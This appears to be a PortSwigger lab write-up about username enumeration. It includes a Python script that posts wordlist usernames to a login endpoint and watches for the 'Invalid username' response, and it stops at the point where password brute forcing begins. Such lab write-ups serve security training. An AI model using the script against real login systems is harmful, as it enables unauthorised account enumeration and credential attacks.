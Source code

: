 # Portswigger Writeups

## Lab 1: Username Enumeration

To solve this lab, brute force the credentials with the given wordlists to login.

This website shows 'Invalid username` when an invalid username is used:

![](../../.gitbook/assets/portswigger-auth-writeup-image.png)

I scripted this entire process. First, I brute forced the username to find that `archie` was valid.

```python
users = open('users.txt','r')
for i in users:
	trial = i.rstrip('\n')
	login_data = {
		'username':trial,
		'password':'test'
	}
	r = s.post(url + '/login', proxies=proxies, data=login_data, cookies=cookies, verify=False)
	if 'Invalid username' not in r.text:
		print(f'[+] Valid username: {trial}')
		sys.exit(1)
```

Afterwards, brute force the password based on the fact that 'Incorrect password' is printed on the screen:

![](../../.gitbook/assets/portswigger-auth-writeup-image-1.png)
